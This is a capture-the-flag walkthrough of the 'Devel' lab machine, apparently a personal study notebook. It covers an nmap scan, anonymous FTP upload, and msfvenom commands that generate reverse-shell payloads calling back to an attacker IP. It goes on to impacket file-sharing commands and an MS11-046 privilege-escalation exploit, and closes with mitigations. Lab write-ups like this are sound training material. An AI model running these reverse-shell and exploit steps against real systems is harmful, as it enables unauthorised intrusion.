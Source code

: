 # DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.

![](../../.gitbook/assets/image%20%285%29%20%282%29%20%282%29%20%282%29%20%281%29.png)

so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage

![](../../.gitbook/assets/image%20%287%29%20%281%29%20%281%29.png)

So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)

![](../../.gitbook/assets/image%20%286%29%20%281%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags

![](../../.gitbook/assets/image.png)

there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed

